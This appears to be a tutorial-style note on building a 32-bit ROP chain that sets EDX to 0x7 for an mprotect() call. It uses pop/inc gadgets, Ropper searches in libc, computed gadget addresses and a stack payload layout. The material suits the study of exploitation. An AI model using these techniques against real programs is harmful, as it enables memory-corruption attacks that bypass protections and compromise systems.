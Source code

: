 # Using ROP chain to call mprotect with proper arguments:

* The goal here is to fill the stack with the addresses of gadgets, that we will use, in chain, to fill the registers used by mprotect() when it executes. I'll use the same values as those seen in the mprotect.md example. 

## First parameter setup in EDX

- We want to set a value into EDX, so at one point, we need to have this value on top of the stack, so we can `pop` it into EDX. We need to find a `pop edx;` gadget. But where to place it ?
-  So right after all those As we've filled the buffer with, we want to have the value of the gadget `pop edx; ret;` and just after it, the value we want to pop into EDX which is `0xffffffff`. 
- Why `0xffffffff` and not `0x7` ? Good question you ask ! The reason is sadistic, we could put `0x7` and pop it into EDX, but we let's talk about a concept i recently heard about: **Integer Overflow**
	- in 32 bits systems, the maximum value a number can have is `0xffffffff`. This number is called a *Unsigned integer*. 
	- Now, what happens when we add 1 to this value ? If we reach the maximum value already ... can we add 1 to it ? What happens then ? Yes we can: `0xffffffff + 1 = 0x100000000` ... but this is not 0 !
	- In a 32-bit system, only 32 bits are stored ... so where does this extra value goes ? Well, the value *wraps* around and becomes `0x00000000`. And this *action* is called an **unsigned integer overflow**: exceeding the maximum representable value causes a wrap-around to zero.
- So our goal, will be to add `1` eight times in a row, in order to go from `0xffffffff` to `0x7`, and to add `1` to EDX we will use a gadget that increments it. This gadget will be `inc edx; ret;`
- Both gadgets offset addresses (compared to the libc base address) can be found using Ropper:
```bash
(ropper)> file /usr/lib32/libc.so.6
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(libc.so.6/ELF/x86)> search /1/ pop edx
[INFO] Searching for gadgets: pop edx
[INFO] File: /usr/lib32/libc.so.6
...
0x0003b4fc: pop edx; ret; 
(libc.so.6/ELF/x86)> search /1/ inc edx
...
0x000a07f8: inc edx; ret; 
```
- libc_base address = 0xf7d75000
- `pop edx; ret;` gadget offset = 0x0003b4fc
- `pop edx; ret;` global address = 0xf7d75000 +  0x0003b4fc = 0xF7DB04FC


|     STACK      ||
|----------------|-------------------------------|
|    A * 268     | => filling the buffer until rbp
| 0xF7DB04FC     | => `pop edx; ret` gadget will be placed on top of stack
| 0xffffffff     | => 0xffffffff will be placed on top of stack to be used by `pop edx`
|0xF7E157F8      | => `inc edx; ret` gadget, when it will be exec, EDX will contain 0 (ffffffff + 1 = 0)
|0xF7E157F8      | => goal is to keep incrementing until EDX contains 0x7
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      | => EDX now contains 7 aka `rwx`
